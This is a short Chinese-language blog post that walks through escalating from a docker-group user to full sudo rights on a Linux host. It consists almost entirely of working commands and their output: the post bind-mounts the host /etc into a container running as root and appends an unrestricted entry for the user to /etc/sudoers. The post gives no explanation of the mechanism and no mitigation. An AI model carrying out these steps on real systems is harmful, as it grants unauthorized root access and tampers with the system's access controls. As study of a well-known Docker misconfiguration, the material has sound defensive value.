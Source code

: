 ```yaml
---
layout: post
title: "Docker提权案例"
subtitle: "介绍一种docker提权场景"
date: 2022-06-21
author: "Cheney.Yin"
header-img: "img/bg-material.jpg"
tags:
 - Docker
 - 提权
 - 用户组
 - sudo
---
```


# docker 提权案例

假设存在用户`tom`，该用户无法`sudo`，但属于`docker`组。
首先，创建用户，

```shell
sudo useradd -m tom
```
查看用户当前信息，
```shell
id tom
uid=1002(tom) gid=1002(tom) groups=1002(tom)
```
将用户加入到`docker`组，
```shell
sudo gpasswd -a tom docker
Adding user tom to group docker
```
查看用户信息，可以看到已经成功加入组。
```shell
id tom
uid=1002(tom) gid=1002(tom) groups=1002(tom),1001(docker)
```
切换登录`tom`，可以成功执行`docker`相关命令。
```shell
su tom
[tom@cheney-hp cheney]$ docker ps -a
CONTAINER ID   IMAGE      COMMAND                  CREATED        STATUS                           PORTS     NAMES
5facb46f63a9   registry   "/entrypoint.sh /etc…"   20 hours ago   Exited (2) 19 hours ago                    registry
e27bbc62b96c   busybox    "sh"                     25 hours ago   Exited (137) About an hour ago             busybox
```
目前，用户`tom`无法执行`sudo`。
```shell
sudo ip addr
tom is not in the sudoers file.  This incident will be reported.
```

接下来，我们借助`docker`进行提权。

```shell
[tom@cheney-hp cheney]$ docker run -itd -v /etc:/etc --name ubuntu ubuntu /bin/bash
b0483f78382d8413a7a6d6e9bc8ceb62fe8819c3ffced1907d7fac95b3034e66
```

 把本地`/etc`映射进容器，进入容器后，登录用户为`root`。

```shell
[tom@cheney-hp cheney]$ docker exec -it ubuntu /bin/bash
root@b0483f78382d:/#
```

在容器内把`tom`加入到`sudoers`文件，

```shell
root@b0483f78382d:/# echo 'tom ALL=(ALL) ALL' >> /etc/sudoers
```

退出容器，测试是否可以正常执行`sudo`。

```shell
[tom@cheney-hp cheney]$ sudo ip addr
[sudo] password for tom:
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
```

背后原理，后续补充。
